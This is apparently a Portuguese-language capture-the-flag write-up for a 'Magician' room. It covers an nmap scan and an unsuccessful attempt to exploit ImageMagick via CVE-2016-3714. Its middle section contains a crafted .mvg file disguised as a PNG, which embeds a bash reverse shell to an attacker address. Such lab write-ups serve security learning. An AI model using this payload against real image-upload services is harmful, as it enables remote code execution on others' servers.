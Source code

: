 # _**Magician CTF**_
![](magic.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos duas páginas web e um serviço FTP
Não temos login anônonimo  
Então, vamos investigar a página web  
Temos um formulário que aceita upload de imagens _.png_ para converter em _.jpg_  
Procurando por como realizar upload de imagens com conteúdo malicioso, me deparei com [CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714)  
Se o servidor usar **ImageMagick** com arquivos controlados por usuários, você pode tentar enviar um arquivo disfarçado de imagem mas que é na verdade um script  
Vamos criar um arquivo _.mvg_
> ```bash
> cat > magem.png << 'EOF'
> push graphic-context
> viewbox 0 0 640 480
> fill 'url(https://example.com/image.jpg"|bash -c '\''bash -i >& /dev/tcp/[ip_address]/[port] 0>&1'\''|")'
> pop graphic-context
> ```

Em seguida, vamos realizar upload de nosso arquivo e ligar nosso ```netcat```  
Após diversos erros e falhas, sem obter shell, encontramos uma pista no serviço FTP que anteriormente passou  

![](ftp_msg.jpg)

Embora já saibamos disso, bom relatar  
Continuando  
Nenhum arquivo parece funcionar no upload, mesmo após verificar soluções na Internet  
Por enquanto, sem resolução para esta sala
